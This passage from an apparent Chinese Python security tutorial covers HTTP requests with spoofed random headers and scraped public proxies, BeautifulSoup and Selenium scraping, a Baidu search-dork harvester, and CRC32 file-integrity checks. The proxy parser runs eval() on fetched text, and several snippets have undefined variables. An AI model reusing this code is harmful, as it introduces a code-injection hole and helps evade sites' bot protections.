               "SymbianOS/9.4; Series60/5.0 NokiaN97-1/20.0.019;",
               "compatible; MSIE 9.1; Windows Phone OS 7.5; IEMobile/9.0; HTC;"]

    UsrFox = ["Chrome/70.0.3100.0", "Auburn Browser/10.05", "Safari/522.13", "Chrome/80.0.1211.0",
              "Firefox/74.0 Safari/522.13",
              "Gecko/20100101 Firefox/4.0.1", "Presto/2.8.131 Version/11.11", "Mobile/8J2 Safari/6533.18.5",
              "Mobile/10 Safari/8536.25",
              "Version/4.0 Safari/534.13", "wOSBrowser/233.70 Baidu Browser/534.6 TouchPad/1.0",
              "BrowserNG/7.1.18124 Safari/522.13",
              "rident/4.0; SE 2.X MetaSr 1.0;", "360SE/80.1 ", "wOSBrowser/233.70", "UCWEB7.0.2.37/28/999",
              "Opera/UCWEB7.0.2.37 Safari",
              "Chrome/80.0.3987.149 Safari/537.36", "Gecko/20100101 Firefox/74.0",
              "Trident/7.0; rv:11.0) like Gecko Safari/522.13"]

    UsrAgent = "Mozilla/5.0 (" + str(random.sample(UsrHead, 1)[0]) + ") AppleWebKit/" + str(
        round(random.uniform(100, 600), 2)) \
               + " (KHTML, like Gecko) " + str(random.sample(UsrFox, 1)[0])

    UsrRefer = str(url + "/" + "id_" + "".join(random.sample("1234567890", 6)) + ".html")
    UserAgent = {"User-Agent": UsrAgent, "Referer": UsrRefer}
    return UserAgent

if __name__ == "__main__":
    ref = GetUserAgent("https://www.lyshark.com")
    print("User-Agent: ",ref.get("User-Agent"))
    print("Referer: ",ref.get("Referer"))
```

如下输出效果，我们通过传入一个参数，即可输出一条随机请求头，及一个来源地址，输出效果如下所示；



##### 实现GET请求

HTTP GET请求是一种常见的HTTP请求方法之一，用于向服务器请求特定资源，比如网页、图片、视频等。在HTTP GET请求中，客户端向服务器发送一个带有请求参数的URL，服务器接收到请求后返回请求的资源。

要实现访问一个页面可以调用`requests.get()`函数，该函数可用于发送`http`以及`https`请求，并返回相应结果，该方法的语法如下所示；

```python
requests.get(url, params=None, **kwargs)
```

其中，`url`是要请求的`URL`，`params`是可选的参数，可以包含查询字符串参数，`**kwargs`是任意的关键字参数，它们将被转换为`HTTP`请求头。这些参数包括但不限于：

- headers: 字典类型，`HTTP`请求头
- cookies: 字典或`CookieJar`类型，请求中发送的cookie
- auth: 元组类型，支持`HTTP`身份验证
- timeout: 超时时间，单位为秒
- allow_redirects: 允许重定向，True或False
- proxies: 字典类型，代理服务器URL
- verify: 是否验证`SSL`证书，True或False

该方法返回一个响应对象，可以使用该对象访问HTTP响应状态码、响应头、响应正文等信息，如下一个案例则是一个简单实现访问特定页面的功能。

```python
import re
import requests

header = {
    'user-agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36',
    'referer': 'https://www.baidu.com'
    }

if __name__ == "__main__":
    ret = requests.get(url="https://www.lyshark.com", headers=header, timeout=5)
    print("输出请求头: ", ret.headers)
    print("服务器类型: ", ret.headers.get("Server"))
    print("服务器时间: ", ret.headers.get("Date"))

    # 检查是否访问成功
    if ret.status_code == 200:
        title = re.findall('<title>(.+)</title>', ret.text)
        print("输出标题: ", title)
```

运行上述代码即可实现访问`www.lyshark.com`服务器，并返回该服务器的相关参数信息，如下图所示；



##### 实现POST请求

HTTP POST请求是指客户端向服务器提交数据的请求方式。在`POST`请求中，提交的数据会被包含在`HTTP`请求体中，并且请求头中会包含`Content-Type`字段来指定提交的数据格式。与`GET`请求相比，`POST`请求更适用于需要向服务器提交大量数据、敏感数据或需要修改服务器状态的场景。

要实现POST请求，读者可调用`requests.post`函数，该函数用于向指定的`URL`发送`HTTP POST`请求。通过`POST`请求，客户端可以向服务器传递数据，这些数据存储在请求的正文中。与`GET`请求不同，`POST`请求不会将数据附加在`URL`参数中。下面是`requests.post`的语法：

```python
requests.post(url, data=None, json=None, **kwargs)
```

其中，参数`url`是`POST`请求的目标URL。参数`data`是`POST`请求的正文数据，类型为字符串或字节流。参数`json`是一个`Python`对象，表示要发送的`JSON`数据。其他的关键字参数将作为请求头的一部分发送。

```python
import requests

if __name__ == "__main__":
    headers = {
        "content-type": "application/json",
        "Authorization": "",
        "Cookie": "",
        "Host": ""
    }

    data = {"username": "lyshark", "tel": "18611184241"}
    req = requests.post(url="https://www.lyshark.com/api", headers=headers, data=data)
    print("响应结果: ",req)
```

如上一段代码，通过使用`post`函数，并在调用时传入一个`data`字典，此时在发送请求时会默认携带该字典传递，运行后如果对端相应了则会返回状态码。



##### 使用HTTP代理

HTTP代理是一个允许用户将其计算机流量通过另一台服务器进行传输的网络服务。通过使用代理服务器，用户可以隐藏其真实IP地址和位置，从而增加其在互联网上的匿名性。HTTP代理通常可以用于访问被阻止的网站、绕过网络过滤器和提高用户隐私。可以通过设置代理服务器地址和端口来在请求中使用HTTP代理。

在`requests`库中同样支持增加代理功能，代理的写法有两种分别是有密码与无密码，这两种格式可写为：

- 有密码写法："https": "https://username:password@ip:port"
- 无密码写法："http": "http://ip:port"

在使用代理时，我们只需要在调用`requests.get`请求时增加一个`proxies`字段并指定一个字典，该字典内存放我们的代理地址即可，这些代理地址可以在网络中很容易的获取到。

```python
import json
import requests

header = {
    'user-agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36',
    'referer': 'https://www.baidu.com'
    }

proxy = { 'http': 'http://112.54.47.55:9091'}

if __name__ == "__main__":
    ret = requests.get(url="http://httpbin.org/get", headers=header, proxies=proxy, timeout=5)
    ret.encoding = "utf-8"

    # 检查是否访问成功
    if ret.status_code == 200:
        load = json.loads(ret.text)
        print("当前自身IP地址:",load.get("origin"))
```

如上则是一段使用代理访问目标地址的代码，当使用代理成功后其返回值应该与代理地址保持一致，如下图所示；



代理地址的获取有许多，此处我们可以使用如下所示的一个代理地址，该项目是一个长期项目代理地址每天都会更新，读者可自行打开查阅；

- 代理地址：http://proxylist.fatezero.org/proxy.list

当然要想使用这些代理不转换肯定是不行的，我们可以通过编程的方式将这些代理根据自己所需要的格式进行转换，将其转换为可以直接在代码中引用的，如下则是一种简单的转换流程；

```python
import json
import requests

header = {'user-agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36',}

# 获取代理并返回字典
def GetProxy():
    ref_dict = {"http":[], "https":[]}
    ret = requests.get(url="http://proxylist.fatezero.org/proxy.list", headers=header, timeout=5)
    ret.encoding = "utf-8"

    # 检查是否访问成功
    if ret.status_code == 200:
        # 切割并将代理地址逐个处理
        local_address_list = ret.text.split("\n")
        for index in local_address_list:
            try:
                dict = eval(index)
                if len(dict["export_address"]) != 0 and dict["export_address"][0] != "unknown":
                    address = dict["export_address"][0]
                    port = dict["port"]
                    type = dict["type"]

                    if type == "http":
                        insert = f"http://{address}:{port}"
                        ref_dict["http"].append(insert)

                    if type == "https":
                        insert = f"https://{address}:{port}"
                        ref_dict["https"].append(insert)
            except Exception:
                pass
    return ref_dict

if __name__ == "__main__":
    proxy_list = GetProxy()
    print(proxy_list)
```

读者可运行上述代码，此时即可将网页中的字符串转换为可以被直接使用的代理地址，输出效果图如下所示；



这些代理地址可能由于时间关系不保证全部能用，接着我们还需要实现一个`CheckProxy`函数，该函数用于验证这些代理地址的可用性，实现代码如下所示；

```python
import json
import requests

# 验证代理是否存活
def CheckProxy(proxy):
    http = proxy["http"]
    for index in http:
        try:
            proxy = {'http': 'http://127.0.0.1:8080'}
            proxy.update({'http': index})
            ret = requests.get(url="http://httpbin.org/get", headers=header, proxies=proxy, timeout=5)
            # 检查是否访问成功
            if ret.status_code == 200:
                load = json.loads(ret.text)
                print("代理头部: {} 实际访问时的地址: {}".format(index,load.get("origin")))

        except Exception:
            pass

if __name__ == "__main__":
    proxy_list = GetProxy()
    CheckProxy(proxy_list)
```

代码验证原理则是通过调用`requests.get`函数访问`http://httpbin.org/get`当代理地址与当前地址一致则说明该地址是可用的，通过循环的方式不断验证即可得到一批可用地址，如下图所示；



##### 下载页面数据

有时候我们需要保存一个`HTTP`页面或保存页面中的特定图片等元素，此时就需要自己实现页面的下载功能，针对网页的下载可以直接使用`requests.get()`函数默认参数即可，而当需要下载大文件或者是图片资源时，我们可以在调用该函数时，增加一个`stream=True`属性，该属性预示着将会采用流模式，此时就可以通过`iter_content`迭代器迭代下载整个图片。

首先我们先来实现下载页面功能，该函数封装为`download_page()`在执行时接收两个参数，分别是需要下载的页面网址，以及需要保存的文件名，当执行下载成功后则会返回`response.status_code`状态码。

```python
import os
import requests

header = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0"}

# 下载页面到本地
def download_page(url,path,timeout):
    params = {"encode": "utf-8"}
    try:
        response = requests.get(url=url, params=params, headers=header, timeout=timeout)
        # 如果返回200
        if response.status_code == 200:
            # print("网页编码方式: {} -> {}".format(response.encoding, response.apparent_encoding))
            context = response.text.encode(response.encoding).decode(response.apparent_encoding, "ignore")

            # 检查文件不存在
            if os.path.exists(path) == False:
                # 将文件保存
                with open(path,"w",encoding=response.apparent_encoding) as file_point:
                    ref = file_point.write(context)
                    # 验证是否保存
                    if ref != 0 or ref != None:
                        return ref
                    else:
                        return 0
            # 如果文件存在则
            else:
                return 0
        else:
            return response.status_code
    except Exception:
        return 0
    return 0

if __name__ == "__main__":

    # 下载页面到本地为index.html设置超时时间5秒
    down_page = download_page("https://www.lyshark.com","index.html",5)
    if down_page != 0:
        print("下载文件完成,返回代码: {}".format(down_page))
```

我们以下载`www.lyshark.com`主页为例，当执行后读者可看到如下图所示的输出结果；



接着是针对图片的下载，下载图片可以调用`download_截图资源()`函数，该函数传入三个参数，分别是需要下载的图片路径，保存图片的路径，以及设置一个超时时间。

```python
import os
import requests

header = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0"}

# 下载页面到本地
def download_截图资源(url,path,timeout):
    params = {"encode": "utf-8"}
    try:
        img_download = requests.get(url=url, params=params, headers=header, timeout=timeout,stream=True)
        # 如果返回200
        if img_download.status_code == 200:
            # 检查文件不存在
            if os.path.exists(path) == False:
                # 将图片保存
                with open(path,"wb") as file_point:
                    # 流的方式保存,每次保存1024
                    chunk_size = 0
                    for chunk in img_download.iter_content(chunk_size=1024):
                        size = file_point.write(chunk)
                        chunk_size = chunk_size + size
                        print("[+] chunk = {}".format(chunk_size))
                    return chunk_size
            # 如果文件存在则
            else:
                return 0
        else:
            return img_download.status_code
    except Exception:
        return 0
    return 0

if __name__ == "__main__":
    # 下载图片到本地
    down_截图资源 = download_截图资源("https://www.lyshark.com/images/baidu_logo.png","security.png",5)
    if down_截图资源 != 0:
        print("下载文件完成,返回代码: {}".format(down_截图资源))
```

运行上述代码，将下载`www.lyshark.com`下面的图标，并将该图标保存为`security.png`，输出效果如下图所示；



#### 21.5.2 BeautifulSoup

BeautifulSoup库用于从HTML或XML文件中提取数据。它可以自动将复杂的HTML文档转换为树形结构，并提供简单的方法来搜索文档中的节点，使得我们可以轻松地遍历和修改HTML文档的内容。广泛用于Web爬虫和数据抽取应用程序中。

读者如果需要使用这个库，同样需要执行pip命令用以安装：

- 安装PIP包：pip install bs4 -i https://pypi.tuna.tsinghua.edu.cn/simple

##### 属性定位链接

通过`HTML`属性我们可以轻松的实现对特定页面特定元素的提取，如下代码我们首先封装两个函数，其中`get_page_attrs`函数用于一次性解析需求，函数`search_page`则用于多次对页面进行解析，这两个函数如果传入`attribute`属性则用于提取属性内的参数，而传入`text`则用于提取属性自身文本。

```python
import requests
from bs4 import BeautifulSoup

header = {"User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98"}

# 参数1: 解析页面URL
# 参数2: 需要解析的页面定位
# 参数3: 提取标签属性
# 参数4：设置超时时间
# 参数5：设置返回类型(attribute 返回属性字段,text 返回文本字段)
def get_page_attrs(url,regx,attrs,timeout,type):
    respon_page = []
    try:
        respon = requests.get(url=url, headers=header, timeout=timeout)
        if respon.status_code == 200:
            if respon != None:
                soup = BeautifulSoup(respon.text, "html.parser")
                ret = soup.select(regx)
                for item in ret:
                    if type == "attribute":
                        respon_page.append( str(item.attrs[attrs] ))
                    if type == "text":
                        respon_page.append(str(item.get_text()))

            return respon_page
        else:
            return None
    except Exception:
        return None
    return None

# 对页面多次搜索
# 参数1: 需要解析的html文本
# 参数2: 需要解析的页面定位
# 参数3: 提取标签属性
# 参数5：设置返回类型(attribute 返回属性字段,text 返回文本字段)
def search_page(data,regx,attrs,type):
    respon_page = []
    if data != None:
        soup = BeautifulSoup(data, "html.parser")
        ret = soup.select(regx)
        for item in ret:
            if type == "attribute":
                respon_page.append( str(item.attrs[attrs] ))
            if type == "text":
                respon_page.append(str(item.get_text()))
    return respon_page
```

通过使用上述两个封装函数，读者就可以轻松的实现对特定网页页面元素的定位，首先我们通过`CSS`属性定位一篇文章中的图片链接，这段代码如下；

```python
if __name__ == "__main__":
    # 通过CSS属性定位图片
    ref = get_page_attrs("https://www.cnblogs.com/LyShark/p/15914868.html",
                   "#cnblogs_post_body > p > img",
                   "src",
                   5,
                   "attribute"
                   )
    print(ref)
```

当上述代码运行后，即可提取出特定网址链接内，属性`#cnblogs_post_body > p > img`中图片的`src`属性，并提取出图片属性`attribute`自身参数。



接着我们继续使用该函数实现定位文章列表功能，文章列表的定位同理，此处第二个参数应修改为`href`属性，如下代码分别使用两种方式实现对文章列表的定位功能；

```python
if __name__ == "__main__":
    # 定位文章列表,两种方式均可
    ref = get_page_attrs("https://www.cnblogs.com/lyshark",
                   "#mainContent > div > div > div.postTitle > a",
                   "href",
                   5,
                   "attribute"
                   )
    print(ref)

    ref = get_page_attrs("https://www.cnblogs.com/lyshark",
                   "div[class='day'] div[class='postCon'] div a",
                   "href",
                   5,
                   "attribute"
                   )
    print(ref)
```

代码运行后即可输出`lyshark`网站中主页所有的文章地址信息，输出如下图所示；



当需要定位文章内容时，我们只需要将第二个属性更改为空格，并将第四个属性修改为`text`此时则代表只提取属性内的文本。

```python
if __name__ == "__main__":
    # 定位文章文本字段
    ref = get_page_attrs("https://www.cnblogs.com/lyshark",
                   "div[class='day'] div[class='postCon'] div[class='c_b_p_desc']",
                   "",
                   5,
                   "text"
                   )

    for index in ref:
        print(index)
```

运行上述代码片段，即可提取出主页中所有的文本信息，如下图所示；



如果需要在同一个页面中多次定位那么就需要使用`search_page`函数了，如下代码中我们需要在一个页面内寻找两个元素，此时就需要定位两次；

```python
if __name__ == "__main__":
    respon = requests.get(url="https://yiyuan.9939.com/yyk_47122/", headers=header, timeout=5)

    ref = search_page(respon.text,
                      "body > div.hos_top > div > div.info > div.detail.word-break > h1 > a",
                      "",
                      "text"
                      )
    print(ref)

    ref = search_page(respon.text,
                      "body > div.hos_top > div > div.info > div.detail.word-break > div.tel > span",
                      "",
                      "text"
                      )
    print(ref)
```

代码运行后，即可通过依次请求，分别输出该页面中的两个元素，如下图所示；



##### 查询所有标签

使用`find_all`函数，可实现从`HTML`或`XML`文档中查找所有符合指定标签和属性的元素，返回一个列表，该函数从用于精确过滤，可同时将该页中符合条件的数据一次性全部筛选出来。

其基本语法为：

```python
find_all(name=None, attrs={}, recursive=True, text=None, limit=None, **kwargs)
```

- name：标签名或列表，用于查找指定标签名的元素，如果为 True 或 None，则查找所有标签元素
- attrs：字典，用于指定属性名和属性值，用于查找具有指定属性名和属性值的元素
- recursive：布尔值，表示是否递归查找子标签，默认为 True
- text：字符串或正则表达式，用于匹配元素的文本内容
- limit：整数，限制返回的匹配元素的数量
- kwargs：可变参数，用于查找指定属性名和属性值的元素

我们以输出`CVE`漏洞列表为例，通过使用`find_all`查询页面中所有的`a`标签，并返回一个列表，通过对列表元素的解析，依次输出该漏洞的序号，网址，以及所对应的编号信息。

```python
import re
import requests
from bs4 import BeautifulSoup

header = {"User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98"}

# 查找文中 所有a标签 且类名是c_b_p_desc_readmore的 并提取出其href字段
# print(bs.find_all('a',class_='c_b_p_desc_readmore')[0]['href'])

# 提取 所有a标签 且id等于blog_nav_admin 类等于menu 并提取出其href字段
# print(bs.find_all('a',id='blog_nav_admin',class_='menu')[0]['href'])
# print(bs.find_all('a',id='blog_nav_admin',class_='menu')[0].attrs['href'])

if __name__ == "__main__":
    url = "https://cassandra.cerias.purdue.edu/CVE_changes/today.html"
    new_cve = []
    ret = requests.get(url=url, headers=header, timeout=5)
    soup = BeautifulSoup(ret.text, 'html.parser')
    for index in soup.find_all('a'):
        href = index.get('href')
        text = index.get_text()
        cve_number = re.findall("[0-9]{1,}-.*",index.get_text())
        print("序号: {:20} 地址: {} CVE-{}".format(text,href,cve_number[0]))
```

读者可自行运行上述代码，即可匹配出当前页面中所有的`CVE`漏洞编号等，如下图所示；



##### 取字串返回列表

在BeautifulSoup4中，`stripped_strings`是一个生成器对象，用于获取`HTML`标签内所有文本内容的迭代器。它会自动去除每个文本的前后空格和换行符，只返回纯文本字符串。`stripped_strings`可以用于处理`HTML`文档中的多行文本、空格等特殊符号，也可用于将元素下面的所有字符串以列表的形式返回。

```python
import requests
from bs4 import BeautifulSoup

header = {"User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98"}

if __name__ == "__main__":
    ret = requests.get(url="https://www.cnblogs.com/lyshark", headers=header, timeout=3)
    text = str(ret.content.decode('utf-8'))

    bs = BeautifulSoup(text, "html.parser")
    ret = bs.select('#mainContent > div > div > div.postTitle > a > span')

    for i in ret:
        # 提取出字符串并以列表的形式返回
        string_ = list(i.stripped_strings)
        print(string_)
```

运行后即可获取选中元素的字符串内容，并通过`list`将其转换为列表格式，如下图所示；



通过`find_all`以及`stripped_strings`属性我们实现一个简单的抓取天气的代码，以让读者可以更好的理解该属性是如何被使用的，如下代码所示；

```python
from bs4 import BeautifulSoup
import requests

head = {'user-agent': 'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36'}
ret = requests.get(url="http://www.weather.com.cn/textFC/beijing.shtml", headers=head, timeout=3)
text = str(ret.content.decode('utf-8'))

bs = BeautifulSoup(text,"html.parser")

# 定位到第一个标签上
bs.find_all('div',class_='conMidtab')[1]

# 在conMidtab里面找tr标签并从第3个标签开始保存
tr = bs.find_all('tr')[2:]

for i in tr:
    # 循环找代码中的所有td标签
    td = i.find_all('td')
    # 找所有的td标签,并找出第一个td标签
    city_td = td[0]
    # 获取目标路径下所有的子孙非标签字符串,自动去掉空字符串
    city = list(city_td.stripped_strings)[0]
    # 取出度数的标签
    temp = td[-5]
    temperature = list(temp.stripped_strings)[0]
    print('城市:{}   温度:{}'.format(city,temperature))
```

我们以提取北京天气为案例，当运行代码后即可取出北京市所有地区的气温数据，如下图所示；



#### 21.5.3 Selenium

Selenium是一个自动化测试框架，主要用于Web应用程序的自动化测试。它可以模拟用户在浏览器中的操作，如打开网页、点击链接、填写表单等，并且可以在代码中实现条件判断、异常处理等功能。Selenium最初是用于测试Web应用程序的，但也可以用于其他用途，如爬取网站数据、自动化提交表单等。Selenium支持多种编程语言，如Java、Python、C#等，同时也支持多种浏览器，如Chrome、Firefox、Safari等。

该工具在使用时需要安装两个模块，首先读者需要自行安装`selenium`包，并且需下载与对应浏览器匹配的驱动程序。

- 安装PIP包：pip install selenium -i https://pypi.tuna.tsinghua.edu.cn/simple
- 安装驱动程序：https://chromedriver.storage.googleapis.com/index.html

我们以`Google`浏览器为例，此处本人的版本为`112.0.5615.121（32 位）`根据该版本下载对应的驱动程序，并将驱动程序放入到`Google`浏览器根目录下，如下图所示，此时的驱动就已经安装成功了；



##### 模拟打开页面

当需要使用浏览器模拟时，首先我们要调用`webdriver.Chrome(executable_path=WebPath)`函数并传入驱动程序路径，此时即可打开驱动程序与谷歌浏览器链接，接着就可以通过各类函数操控浏览器行为。

```python
from selenium import webdriver
from selenium.webdriver.common.by import By

WebPath = "C:/Users/admin/AppData/Local/Google/Chrome/Application/chromedriver.exe"

if __name__ == "__main__":
    driver = webdriver.Chrome(executable_path=WebPath)

    # 设置窗口大小为1275*765
    driver.set_window_size(1275, 765)

    # 设置窗体为全屏
    driver.maximize_window()

    # 获得窗口大小
    get_size = driver.get_window_size()
    print("获取窗口大小: {}".format(get_size))

    # 获取当前窗体句柄
    handle = driver.current_window_handle
    print("当前句柄: {}".format(handle))

    # 打开链接并得到页面源代码
    url = "https://www.baidu.com"
    driver.get(url)
    url_source = str(driver.page_source)
    # print("页面源代码: {}".format(url_source))

    # 定位a标签并点击,跳转到贴吧
    click_url = driver.find_element(By.XPATH, '//*[@id="s-top-left"]/a[4]')
    click_url.click()

    # 打开页面后输出所有窗体句柄
    all_handles = driver.window_handles
    print("当前所有窗体句柄： {}".format(all_handles))

    input("输入回车结束")
    driver.quit()
```

上述代码片段中，首先通过`set_window_size()`函数将浏览器页面设置为`1275*765`接着再调用`maximize_window()`设置为全屏，通过得到当前窗体句柄，并通过`get()`函数让浏览器打开一个页面，最后通过`xpath`语法定位到`//*[@id="s-top-left"]/a[4]`标签（贴吧）上，并点击鼠标左键，打开页面后并输出所有窗体，如下图所示；



##### 切换窗体句柄

如上代码执行后虽然打开了百度百科，但是窗体的句柄其实还是停留在了百度首页上，定位的元素还是在百度上，此时我们就需要切换窗体句柄，也就是将当前句柄切换到百度贴吧页面上，此时才可读取该页面的完整源代码信息。

我们通过使用`all_handles[-1]`的方式切换到最后一个窗体上，也就是对应的百度贴吧页面，接着再执行`switch_to.window(new_handle_tieba)`函数实现窗口句柄的切换功能，代码如下所示；

```python
from selenium import webdriver
from selenium.webdriver.common.by import By

WebPath = "C:/Users/admin/AppData/Local/Google/Chrome/Application/chromedriver.exe"

if __name__ == "__main__":
    driver = webdriver.Chrome(executable_path=WebPath)

    # 设置窗口大小为1275*765
    driver.set_window_size(1275, 765)

    # 打开链接并得到页面源代码
    url = "https://www.baidu.com"
    driver.get(url)

    # 定位a标签并点击,跳转到贴吧
    click_url = driver.find_element(By.XPATH, '//*[@id="s-top-left"]/a[4]')
    click_url.click()

    # 打开页面后输出所有窗体句柄
    all_handles = driver.window_handles
    print("当前所有窗体句柄： {}".format(all_handles))

    # 从所有句柄的集合中,获取最后那个,也就是最新的
    new_handle_tieba = all_handles[-1]

    # 执行切换操作
    driver.switch_to.window(new_handle_tieba)

    # 切换后查看现在的句柄
    now_handles = driver.current_window_handle
    print("贴吧窗体句柄： {}".format(now_handles))

    # 得到贴吧源代码
    url_source = str(driver.page_source)
    print(url_source)

    input("输入回车结束")
    driver.quit()
```

运行后读者可自行查询当前句柄所在位置，如下图所示；



##### 前进后退与刷新

在控制页面是我们可能需要使用页面前进后退与刷新功能，前进时可以调用`driver.forward()`函数实现，后退调用`driver.back()`函数，而刷新则可调用`driver.refresh()`函数，功能如下案例所示；

```python
from selenium import webdriver
from selenium.webdriver.common.by import By

WebPath = "C:/Users/admin/AppData/Local/Google/Chrome/Application/chromedriver.exe"

if __name__ == "__main__":
    driver = webdriver.Chrome(executable_path=WebPath)

    # 设置窗口大小为1275*765
    driver.set_window_size(1275, 765)

    # 打开链接
    driver.get(url="https://www.baidu.com")
    driver.get(url="https://www.lyshark.com")

    # 后退上一页,等待3秒
    driver.implicitly_wait(3)
    driver.back()

    # 前进下一页,等待3秒
    driver.implicitly_wait(3)
    driver.forward()

    # 刷新页面,等待3秒
    driver.implicitly_wait(3)
    driver.refresh()

    # 获取当前页面句柄,并切换过去
    handle = driver.current_window_handle
    driver.switch_to.window(handle)

    # 得到源代码
    url_source = str(driver.page_source)
    print(url_source)

    # 关闭当前窗口
    driver.close()

    input("输入回车结束")
    driver.quit()
```

运行后读者可自行观察输出效果，如下图所示；



##### 百度页面采集

如下是一个综合案例，在案例中我们通过使用三种解析库实现了对百度页面中特定关键字的采集，当运行后读者可自行判断是否存在安全验证，如果存在可自行手动绕过检测，并输入`y`此时即可实现关键字的采集，当采集完成后自动柏村委`html`格式文件。

```python
import re,argparse,requests
from selenium import webdriver
from bs4 import BeautifulSoup
from queue import Queue

WebPath = "C:/Users/admin/AppData/Local/Google/Chrome/Application/chromedriver.exe"

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--search",dest="search",help="输入要搜索的语法,inurl:lyshark")
    args = parser.parse_args()
    if args.search:
        driver = webdriver.Chrome(executable_path=WebPath)
        driver.set_window_size(1024,768)

        queue = Queue()

        # 生成链接
        for item in range(0,1000,10):
            queue.put('https://www.baidu.com/s?wd={}&pn={}'.format(str(args.search),str(item)))

        # 每次吐出一个
        for item in queue.queue:
            driver.get(item)
            ret = str(driver.page_source)

            # 是否有验证
            if driver.title == "百度安全验证":
                print("请用户完成验证,并输入y: ")
                is_true = input()
                if is_true != "y":
                    driver.close()

            soup = BeautifulSoup(ret,'html.parser')
            urls = soup.find_all(name='a',attrs={'data-click':re.compile(('.')),'class':None})
            for item in urls:
                try:
                    get_url = requests.get(url=item['href'],headers=head,timeout=5)
                    print(get_url)
                    if get_url.status_code == 200:
                        title = re.findall('<title>(.+)</title>', get_url.text)
                        print("[+] 抓取URL: {} 抓取标题: {}".format(get_url.url,title))
                        with open("save.html","a+") as fp:
                            fp.write("<a href={}>{}</a><br>".format(get_url.url,title))
                except Exception:
                    pass
    else:
        parser.print_help()
```

运行上述代码，读者可观察输出效果，此时会自动抓取特定页面中的链接，并存储到本地；



### 21.6 运用CRC32校验技术

CRC32（Cyclic Redundancy Check）是一种循环冗余校验算法，用于检测数据传输或存储中的错误。生成的`CRC`值通常是`32`位的无符号整数。在计算过程中，每个数据位都被逐个处理，并与之前计算的`CRC`值进行运算，直到处理完所有数据位，最后得到的`CRC`值就是数据的校验值。

该算法广泛应用于数据通信、数据存储和文件校验等领域。具有高效性和良好的错误检测能力，能够检测出大部分单比特错误和多比特错误。常见的应用场景包括网络传输中的数据完整性检查、存储设备中的数据校验和文件校验和验证等。

在计算`CRC32`值时，可以使用现成的`CRC32`计算工具或库函数，也可以根据具体需求自行实现`CRC32`算法，Python语言中内置了`zlib`库，利用该库可以很容易的实现`crc`参数的计算，而利用此方式我们可以检查特定文件是否被修改过，并以此实现各类安全辅助功能，如下我们将利用该库实现对特定文件的校验，目录监控，以及文件去重等功能，这些功能在安全领域的应用较为广泛。

#### 21.6.1 使用CRC校验文件

CRC文件校验是一种用于验证文件完整性的方法，通过计算文件的`CRC`值并与预先计算的`CRC`校验值进行比较，来判断文件是否发生变化，此类功能可以用于验证一个目录中是否有文件发生变化，如果发生变化则我们可以将变化打印输出，该功能可用于实现对特定目录的验证。

首先实现文件与目录的遍历功能，递归输出文件或目录，在`Python`中有两种实现方式，我们可以通过自带的`os.walk`函数实现，也可以使用`os.listdir`实现，这里笔者依次封装两个函数，函数`ordinary_all_file`使用第一种方式，函数`recursion_all_file`使用第二种，这两种方式都返回`_file`列表，读者可使用列表接收输出数据集。

```python
import os,hashlib,time,datetime
from zlib import crc32
import argparse

# 递归版遍历所有文件和目录
def recursion_all_file(rootdir):
    _file = []
    root = os.listdir(rootdir)
    for item in range(0,len(root)):
           path = os.path.join(rootdir,root[item])
           if os.path.isdir(path):
              _file.extend(recursion_all_file(path))
           if os.path.isfile(path):
              _file.append(path)

    for item in range(0,len(_file)):
        _file[item] = _file[item].replace("\\","/")
    return _file

# 通过自带OS库中的函数实现的目录遍历
def ordinary_all_file(rootdir):
    _file = []
    for root, dirs, files in os.walk(rootdir, topdown=False):
        for name in files:
            _file.append(os.path.join(root, name))
        for name in dirs:
            _file.append(os.path.join(root, name))
            
        for item in range(0,len(_file)):
            _file[item] = _file[item].replace("\\","/")
    return _file
```

针对计算方法此处也提供两种，第一种`Calculation_md5sum`使用`hashlib`模块内的`md5()`方法计算特定文件的`MD5`特征，第二种`Calculation_crc32`则使用`zlib`库中的`crc32`方法计算特定文件的`CRC32`值，如下所示。

```python
# 通过hashlib模块读取文件并计算MD5值
def Calculation_md5sum(filename):
    try:
        fp = open(filename, 'rb')
        md5 = hashlib.md5()
        while True:
            temp = fp.read(8096)
            if not temp:
                break
            md5.update(temp)
        fp.close()
        return (md5.hexdigest())
    except Exception:
        return 0

# 计算目标CRC32
def Calculation_crc32(filename):
    try:
        with open(filename,"rb") as fp:
            crc = crc32(fp.read())
            while True:
                temp = fp.read(8196)
                if not temp:
                    break
            return crc
    except Exception:
        return 0
    return 0
```

在主函数中，我们通过`argparse`解析库传入参数，并分别实现三个功能，其中使用`dump`功能可以保存特定目录内文件的`hash`值到`dump.json`文件中，其次`check`功能可用于根据`dump.json`中的内容检查文件是否被改动过，最后的`set`则可用于批量设置文件的时间戳，这三类功能都属于较为常用的。

```python
if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--mode",dest="mode",help="指定需要使用的方法名称,(set/dump/check)")
    parser.add_argument("-d","--dir",dest="dir",help="指定一个需要遍历的文件目录(非文件)")
    parser.add_argument("-f","--files",dest="files",help="指定一个本地快照文件,或转储的文件名称")
    parser.add_argument("-t","--time",dest="time",help="指定需要统一修改的文件时间")
    args = parser.parse_args()

    # 保存快照: main.py --mode=dump -d "D:/lyshark" -f dump.json
    if args.mode == "dump" and args.dir and args.files:
        file = recursion_all_file(args.dir)
        fp = open(args.files,"w+")
        for item in file:
            Single = []
            Single.append(Calculation_crc32(item))
            Single.append(item)
            fp.write(str(Single) + "\n")
